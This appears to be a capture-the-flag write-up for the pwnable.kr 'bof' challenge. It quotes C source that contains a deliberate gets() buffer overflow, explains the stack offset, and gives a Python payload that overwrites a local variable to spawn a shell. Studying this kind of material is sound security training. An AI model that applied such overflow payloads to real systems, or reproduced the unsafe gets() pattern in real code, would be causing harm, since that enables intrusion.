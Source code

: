 # pwnable.kr -- Toddler's Bottle -- bof
This is a classical buffer-overflow exploit. You can write the payload by yourself without difficulty if you know the stack layout.

## 1. Challenge
  > Nana told me that buffer overflow is one of the most common software vulnerability.  
  > Is that true?  
  >   
  > Download : http://pwnable.kr/bin/bof  
  > Download : http://pwnable.kr/bin/bof.c  
  >   
  > Running at : nc pwnable.kr 9000  

## 2. Solution
  * As the challenge provides the source code, let's just see it:
    ```c
    #include <stdio.h>
    #include <string.h>
    #include <stdlib.h>

    void func(int key){
	    char overflowme[32];
	    printf("overflow me : ");
	    gets(overflowme);	// smash me!
	    if(key == 0xcafebabe){
		    system("/bin/sh");
	    }
	    else{
		    printf("Nah..\n");
	    }
    }

    int main(int argc, char* argv[]){
	    func(0xdeadbeef);
	    return 0;
    }

    ```

  * You can see that `gets(overflowme);` does not restrict the length you input. It will keep reading and writing until you press `Enter` key.

  * So let's see the stack layout of the function `func` in IDA:

      ![stack_layout_of_func](stack_layout_of_func.png)

  * We can see that you can change the value of the variable `key` if you input more than `0x2C + 0x4 + 0x4 = 0x34` bytes, so the payload obviously should be:
    ```python
    payload = 0x34 * b'a' + b'\xbe\xba\xfe\xca' + b'\n'
    ```
